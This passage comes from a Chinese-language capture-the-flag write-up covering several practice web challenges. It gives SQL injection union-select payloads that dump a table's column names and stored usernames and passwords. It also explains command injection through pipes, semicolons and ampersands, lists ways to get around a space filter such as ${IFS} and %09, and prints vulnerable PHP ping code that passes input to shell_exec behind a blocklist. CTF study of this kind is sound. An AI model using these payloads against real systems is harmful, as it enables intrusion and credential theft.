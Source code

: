 ```
?username=111' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'%23&password=1
得到字段id,username,password

?username=111' union select 1,group_concat(id,username,password),3 from geek.l0ve1ysq1%23&password=1
或者：
?username=111' union select id,username,password from geek.l0ve1ysq1 limit 0,1%23&password=1
一个一个查
```

## 0x9.[ACTF2020 新生赛]Exec

就是连接命令，可以管道符||，也可以分号，或者&这个符号。

但是经过测试，之后分号可以多个命令一起执行（在这道题）

![image-20210415165001140](未命名.assets/image-20210415165001140.png)

找到flag.

## 0xA.[GXYCTF2019]Ping Ping Ping

打开后发现无论是cat flag.php还是index.php都打不开，经过测试发现可能是过滤了空格。

>   1.  ${IFS}替换
>   2.  \$IFS\$1替换
>   3.  ${IFS替换
>   4.  %20替换
>   5.  <和<>重定向符替换
>   6.  %09替换

$IFS是shell中的一个变量，

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
```